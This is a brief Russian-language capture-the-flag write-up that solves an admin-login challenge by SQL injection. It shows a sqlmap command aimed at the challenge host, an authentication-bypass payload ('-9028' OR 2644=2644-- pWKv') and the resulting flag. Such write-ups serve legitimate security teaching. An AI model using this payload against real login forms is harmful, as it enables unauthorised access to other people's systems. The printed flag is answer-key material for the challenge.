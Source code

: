 # А ты админ?
Видим обычную форму ввода в админ панель, проверим на уязвимость к sql инъекциям отправив ковычку.  
Получаем ошибку, а значит сервис уязвим  
Натравим на него sqlmap  
`sqlmap -u "http://bnw.saintvegas.cc:1338" --data="user=admin&password=*"` 
Получаем строку, которую нужно отправить, чтобы получить доступ  
`-9028' OR 2644=2644-- pWKv`  
Наш флаг arctf{too_easy_sql_inj}   
 
